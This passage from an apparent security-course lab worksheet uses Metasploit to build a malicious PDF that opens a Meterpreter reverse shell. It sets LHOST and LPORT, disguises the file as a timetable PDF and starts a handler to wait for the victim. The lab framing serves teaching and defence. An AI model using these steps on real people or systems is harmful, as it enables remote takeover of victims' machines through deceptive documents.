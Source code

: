 Again, ==action: check the options that need to be set:==

```bash
msf exploit(adobe_pdf_embedded_exe) > show options
```

This time there are two options we need to set: LHOST and LPORT. These are the details of the attackers local system. For the reverse shell to work, it needs to know what IP address and port to connect back to. 

==hint: Note the Host-only IP address of your Kali Linux VM== (hint: "ifconfig", note the address starting with 10), and choose a TCP port to use. 

==action: Set the LHOST:==

```bash
msf exploit(adobe_pdf_embedded_exe) > set LHOST ==edit:Your-Kali-IP-Address==
```

==action: Set the LPORT:==

```bash
msf exploit(adobe_pdf_embedded_exe) > set LPORT ==edit:Your-Choice-of-Port==
```

==action: Run the exploit:==

```bash
msf exploit(adobe_pdf_embedded_exe) > run
```

This has created a malicious PDF document, which when viewed with a vulnerable reader will spawn a reverse shell. Check the output to see where the PDF file has been stored.

In order to receive the reverse shell, the attacker needs to start listening for connections, before sending the PDF to a victim.

==action: Set up the handler:==

```bash
msf > use exploit/multi/handler
```

```bash
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```

```bash
msf exploit(handler) > set LHOST ==edit:Your-Kali-IP-Address==
```

```bash
msf exploit(handler) > set LPORT ==edit:Your-Choice-of-Port==
```

```bash
msf exploit(handler) > run
```

> Note: *Your-Choice-of-Port* must be the same as when you created a payload above, i.e. crafted pdf *timetable*.pdf

Leave the above running, it is waiting for our victim to connect.

